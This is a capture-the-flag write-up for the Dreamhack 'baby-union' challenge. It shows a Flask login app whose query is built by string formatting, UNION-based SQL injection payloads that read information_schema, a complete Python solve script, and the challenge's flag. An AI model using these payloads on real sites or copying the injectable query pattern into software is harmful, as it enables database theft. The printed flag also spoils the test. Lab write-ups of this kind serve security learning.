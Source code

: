 ```yaml
---
title: baby-union
author: thanguyen165
date: 2023-01-01 07:00:00 +0700
categories: [Practice, dreamhack]
tags: [Web Exploitation, SQL injection]
---
```


* Level: 1
* Link: [https://dreamhack.io/wargame/challenges/984](https://dreamhack.io/wargame/challenges/984)

## Description

> This is a web service that prints out the information of your account when you log in.
> 
> Obtain a flag through ```SQL INJECTION VULNERABILITIES```. The table and column names in the ```init.sql``` file given in the problem are different from the actual names.
> 
> The flag format is ```DH{...}```.

### Attached

```sql
CREATE DATABASE secret_db;
GRANT ALL PRIVILEGES ON secret_db.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `secret_db`;
CREATE TABLE users (
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null,
  descr varchar(128) not null
);

INSERT INTO users (uid, upw, descr) values ('admin', 'apple', 'For admin');
INSERT INTO users (uid, upw, descr) values ('guest', 'melon', 'For guest');
INSERT INTO users (uid, upw, descr) values ('banana', 'test', 'For banana');
FLUSH PRIVILEGES;

CREATE TABLE fake_table_name (
  idx int auto_increment primary key,
  fake_col1 varchar(128) not null,
  fake_col2 varchar(128) not null,
  fake_col3 varchar(128) not null,
  fake_col4 varchar(128) not null
);

INSERT INTO fake_table_name (fake_col1, fake_col2, fake_col3, fake_col4) values ('flag is ', 'DH{sam','ple','flag}');
```
{: file="init.sql" }

```py
import os
from flask import Flask, request, render_template
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'secret_db')
mysql = MySQL(app)

@app.route("/", methods = ["GET", "POST"])
def index():

    if request.method == "POST":
        uid = request.form.get('uid', '')
        upw = request.form.get('upw', '')
        if uid and upw:
            cur = mysql.connection.cursor()
            cur.execute(f"SELECT * FROM users WHERE uid='{uid}' and upw='{upw}';")
            data = cur.fetchall()
            if data:
                return render_template("user.html", data=data)

            else: return render_template("index.html", data="Wrong!")

        return render_template("index.html", data="Fill the input box", pre=1)
    return render_template("index.html")


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```
{: file="app.py" }

## Analyzation

Firstly, we need to have the table containing flag:

```py
login_info = {
    "uid": "any-string",
    "upw": "' UNION SELECT table_name, table_type, version, table_rows FROM information_schema.tables WHERE '1'='1"
}
```

Then the sql query will be

```sql
SELECT * FROM users WHERE uid='any-string' and upw='' UNION SELECT table_name, table_type, version, table_rows FROM information_schema.tables WHERE '1'='1';
```

The ```information_schema.tables``` table provides information about tables in databases. See more at [dev.mysql.com](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html).

Now we have table name, ```onlyflag```.

We need the columns' name, too. [```information_schema.columns```](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html) will work

```py
login_info = {
    "uid": "any-string",
    "upw": "' UNION SELECT column_name, data_type, character_maximum_length, column_type FROM information_schema.columns WHERE table_name='onlyflag"
}
```

Now we have the columns, ```["idx", "sname", "svalue", "sflag", "sclose"]```.

## Solution

```py
import requests

URL = "http://host3.dreamhack.games:19276/"

def post(payload):
    response = requests.post(URL, data=payload)
    if response.status_code != 200:
        print(f"Failed to post {URL}: {response.status_code}")
        exit()
    return response.text

def exact(text: str):
    list = text.split('<th scope="row">')
    list = list[1:] # remove first element, not relevant information
    list = [item.split('</th>')[0] for item in list] # remove </th> tag
    return list

def print_response(response):
    for item in response:
        print(item)

login_infor = {
    "uid": "admin",
    "upw": "admin"
}

def get_flag_table_name():
    payload = "' UNION SELECT table_name, table_type, version, table_rows FROM information_schema.tables WHERE '1'='1"
    login_infor["upw"] = payload

    return exact(post(login_infor))

def get_flag_column_name(table_name: str):
    payload = f"' UNION SELECT column_name, data_type, character_maximum_length, column_type FROM information_schema.columns WHERE table_name='{table_name}"
    login_infor["upw"] = payload

    return exact(post(login_infor))

def get_flag(columns_name):
    payload = ""
    for i in range(3):
        payload += f"' UNION SELECT {columns_name[(i+2)%5]}, {columns_name[(i+3)%5]}, {columns_name[(i+4)%5]}, {columns_name[(i+1)%5]} FROM onlyflag WHERE '1'='1"
    login_infor["upw"] = payload
    return exact(post(login_infor))

if __name__ == "__main__":
    response = get_flag_table_name()
    # print_response(response)
    flag_table = response[-1]

    columns_name = get_flag_column_name(flag_table)
    # print_response(columns_name)

    flag = get_flag(columns_name)
    print(flag[0] + flag[1] + flag[2])
```

The flag is
```
DH{57033624d7f142f57f139b4c9e84bd78da77b4406896c386672f0cbb016f5873}
```